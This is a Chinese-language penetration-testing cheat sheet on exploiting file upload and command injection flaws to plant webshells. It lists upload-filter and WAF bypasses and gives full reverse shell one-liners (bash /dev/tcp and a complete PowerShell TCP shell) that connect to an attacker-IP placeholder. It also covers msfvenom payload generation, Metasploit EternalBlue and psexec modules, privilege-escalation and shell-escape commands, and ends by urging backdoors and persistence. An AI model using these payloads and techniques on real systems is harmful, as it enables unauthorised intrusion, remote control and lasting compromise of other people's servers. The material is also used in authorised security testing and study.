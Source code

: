 # Webshel​​l

## 🔍 **1. 發現點 (漏洞發現)**

\
✅ **未受限制的文件上傳 (Unrestricted File Upload)** → 可能導致遠端代碼執行 (RCE)\
✅ **命令注入 (Command Injection)** → 可能允許直接執行系統命令

***

🚀 **2. 測試 Payload (有效載荷測試)**\
📌 **文件上傳測試**
-------------

* 使用 **WebShell** (`.php`, `.aspx`, `.jsp`) 測試是否可以執行
* 嘗試 **繞過過濾機制** (MIME 類型過濾、文件擴展名黑名單、雙重擴展名 `.jpg.php`)
* 使用 [**revshells.com**](https://www.revshells.com/) 生成反向 Shell (Reverse Shell)

📌 **命令注入測試**

*   嘗試基本命令執行：

    ```bash
    whoami && uname -a
    ```

    ```cmd
    ipconfig && net user
    ```
* 測試常見繞過技巧 (`;`, `&&`, `||`, `|`, `$()`, `` ` ` ``)
* 嘗試 **Base64 / URL 編碼** 避開 WAF

***

## 🛠️ **3. 繞過技巧 (Bypass 技巧)**

\
✅ **使用 URL 編碼繞過 WAF**\
✅ **使用雙重擴展名 (`.jpg.php`, `.asp;.txt`) 上傳 WebShell**\
✅ **利用 HTTP 參數污染 (HTTP Parameter Pollution, HPP) 進行繞過**\
✅ **修改 `Content-Type` 為 `image/jpeg` 以繞過 MIME 過濾**\
✅ **嘗試 NTFS ADS (`file.asp::$DATA`) 在 Windows 伺服器上繞過檢測**

更多技巧可參考：[revshells.com](https://www.revshells.com/)

***

🎯 **4. 進一步測試 (深度利用)**\
🔹 **權限提升 (Privilege Escalation)**

* `sudo -l` → 查看當前用戶可以執行的 `sudo` 命令 (Linux)
* `whoami /priv` → 檢查 Windows 權限，查看是否有 `SeImpersonatePrivilege` (可用於 `Juicy Potato` 提權)

🔹 **反向 Shell 測試 (Reverse Shell Execution)**

*   **Linux Netcat 反向 Shell**

    ```bash
    bash -i >& /dev/tcp/攻擊者IP/攻擊者端口 0>&1
    ```
*   **Windows PowerShell 反向 Shell**

    ```powershell
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('攻擊者IP', 攻擊者端口);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

***

🔗 **5. 連鎖漏洞 (漏洞鏈接)**\
✅ **未受限制的文件上傳 (Unrestricted File Upload) → 上傳 WebShell (`cmd.aspx`)**\
✅ **命令注入 (Command Injection) → 直接 RCE (`ping 攻擊者IP`)**\
✅ **IIS 短檔名枚舉 (IIS Tilde Enumeration) → 洩露隱藏的 `.aspx` 文件**\
✅ **爆破完整檔名** (`.config`, `.asp`, `.txt`) → 找到敏感文件 (`admin_login.aspx`)\
✅ **SQL 注入 (SQLi) 測試 (`sqlmap -u "http://目標/admin_login.aspx?id=1"`)**\
✅ **進一步利用 RCE / 權限提升 (Privilege Escalation) 取得系統控制權**

***

## 🔥 **6. 常用命令與濫用技巧**

### 📌 **遠程桌面攻擊 (RDP Exploitation)**

```bash
xfreerdp /v:<目標IP> /u:<用戶名> /p:<密碼>
```

* 使用 RDP 連接 Windows 目標，可能進一步控制系統

### 📌 **Netcat 監聽與連接 (Netcat Listener & Connection)**

```bash
sudo nc -lvnp <PORT>
```

* 啟動 Netcat 監聽器，等待反向 Shell

```bash
nc -nv <攻擊者IP> <PORT>
```

* 手動連接目標機器的 Netcat Shell

### 📌 **Metasploit 漏洞利用**

```bash
use exploit/windows/smb/psexec
```

* 使用 `psexec` 針對 Windows SMB 進行遠端攻擊

```bash
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_psexec
```

* MS17-010 (永恆之藍漏洞) 攻擊，利用 SMB 取得 Shell

### 📌 **MSFVenom 生成 Payload**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<攻擊者IP> LPORT=<PORT> -f elf > shell.elf
```

* 生成 Linux 反向 Shell Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<攻擊者IP> LPORT=<PORT> -f exe > shell.exe
```

* 生成 Windows 反向 Shell Payload

### 📌 **WebShell 位置**

```bash
/usr/share/webshells/laudanum
/usr/share/nishang/Antak-WebShell
```

* `Laudanum` 和 `Nishang` WebShell 可用於滲透測試

***

### 🎯 **7. 權限提升與逃逸** 📌 **獲取互動式 Shell**

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

* 讓 Shell 變成交互式，可使用 `clear`, `nano` 等指令

### 📌 **VIM 逃逸 Shell**

```bash
vim -c ':!/bin/sh'
```

* 在受限制的環境 (`jail shell`) 中逃逸獲取完整 Shell

### 📌 **檢查 Sudo 權限**

```bash
sudo -l
```

* 檢查當前用戶是否可以執行 `sudo` 命令

### 📌 **查找 SUID 二進制文件**

```bash
find / -perm -4000 -type f 2>/dev/null
```

* 查找 SUID 權限的可執行文件，可能可用於提權

***

✅ **8. 下一步建議 (進一步攻擊)**\
📌 測試 **IIS 短檔名枚舉** (`IIS Short Name Scanner`)\
📌 嘗試 **SQL 注入 (`sqlmap`) 或 XSS 測試**\
📌 **獲取反向 Shell** → 提升權限 (`Privilege Escalation`)\
📌 **建立後門 / 保持存取權限** (`Persistence`)

這樣能夠將攻擊鏈條最大化，進一步滲透！💀🚀
